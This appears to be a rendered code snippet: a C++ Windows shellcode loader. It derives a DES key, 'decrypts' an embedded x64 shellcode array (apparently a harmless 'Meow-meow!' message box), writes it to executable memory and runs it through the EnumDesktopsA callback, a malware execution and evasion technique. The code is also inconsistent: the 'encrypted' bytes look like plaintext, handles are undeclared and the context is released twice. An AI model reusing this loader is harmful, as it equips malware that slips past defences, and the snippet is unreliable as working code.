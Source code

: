 ```cpp
  unsigned char key[] = "\x6d\x65\x6f\x77\x6d\x65\x6f\x77";
  DWORD key_size = sizeof(key);
  HCRYPTHASH hHash;

  unsigned char enc_payload[] =
  "\xfc\x48\x81\xe4\xf0\xff\xff\xff\xe8\xd0\x00\x00\x00"
  "\x41\x51\x41\x50\x52\x51\x56\x48\x31\xd2\x65\x48\x8b"
  "\x52\x60\x3e\x48\x8b\x52\x18\x3e\x48\x8b\x52\x20\x3e"
  "\x48\x8b\x72\x50\x3e\x48\x0f\xb7\x4a\x4a\x4d\x31\xc9"
  "\x48\x31\xc0\xac\x3c\x61\x7c\x02\x2c\x20\x41\xc1\xc9"
  "\x0d\x41\x01\xc1\xe2\xed\x52\x41\x51\x3e\x48\x8b\x52"
  "\x20\x3e\x8b\x42\x3c\x48\x01\xd0\x3e\x8b\x80\x88\x00"
  "\x00\x00\x48\x85\xc0\x74\x6f\x48\x01\xd0\x50\x3e\x8b"
  "\x48\x18\x3e\x44\x8b\x40\x20\x49\x01\xd0\xe3\x5c\x48"
  "\xff\xc9\x3e\x41\x8b\x34\x88\x48\x01\xd6\x4d\x31\xc9"
  "\x48\x31\xc0\xac\x41\xc1\xc9\x0d\x41\x01\xc1\x38\xe0"
  "\x75\xf1\x3e\x4c\x03\x4c\x24\x08\x45\x39\xd1\x75\xd6"
  "\x58\x3e\x44\x8b\x40\x24\x49\x01\xd0\x66\x3e\x41\x8b"
  "\x0c\x48\x3e\x44\x8b\x40\x1c\x49\x01\xd0\x3e\x41\x8b"
  "\x04\x88\x48\x01\xd0\x41\x58\x41\x58\x5e\x59\x5a\x41"
  "\x58\x41\x59\x41\x5a\x48\x83\xec\x20\x41\x52\xff\xe0"
  "\x58\x41\x59\x5a\x3e\x48\x8b\x12\xe9\x49\xff\xff\xff"
  "\x5d\x49\xc7\xc1\x00\x00\x00\x00\x3e\x48\x8d\x95\x1a"
  "\x01\x00\x00\x3e\x4c\x8d\x85\x25\x01\x00\x00\x48\x31"
  "\xc9\x41\xba\x45\x83\x56\x07\xff\xd5\xbb\xe0\x1d\x2a"
  "\x0a\x41\xba\xa6\x95\xbd\x9d\xff\xd5\x48\x83\xc4\x28"
  "\x3c\x06\x7c\x0a\x80\xfb\xe0\x75\x05\xbb\x47\x13\x72"
  "\x6f\x6a\x00\x59\x41\x89\xda\xff\xd5\x4d\x65\x6f\x77"
  "\x2d\x6d\x65\x6f\x77\x21\x00\x3d\x5e\x2e\x2e\x5e\x3d"
  "\x00\x00";

  int my_payload_len = sizeof(enc_payload);
  unsigned char dec_payload[my_payload_len];

  CryptAcquireContext(&hProv, NULL, NULL, PROV_RSA_AES, 0);
  CryptCreateHash(hProv, CALG_SHA_256, 0, 0, &hHash);
  CryptHashData(hHash, key, key_size, 0);
  CryptDeriveKey(hProv, CALG_DES, hHash, 0, &hKey);
  CryptReleaseContext(hProv, 0);

  decrypt_des(enc_payload, dec_payload, my_payload_len, hKey);

  CryptDestroyKey(hKey);
  CryptReleaseContext(hProv, 0);

  LPVOID mem = VirtualAlloc(NULL, my_payload_len, MEM_COMMIT, PAGE_EXECUTE_READWRITE);
  RtlMoveMemory(mem, dec_payload, my_payload_len);
  EnumDesktopsA(GetProcessWindowStation(), (DESKTOPENUMPROCA)mem, NULL);
  return 0;
}
```

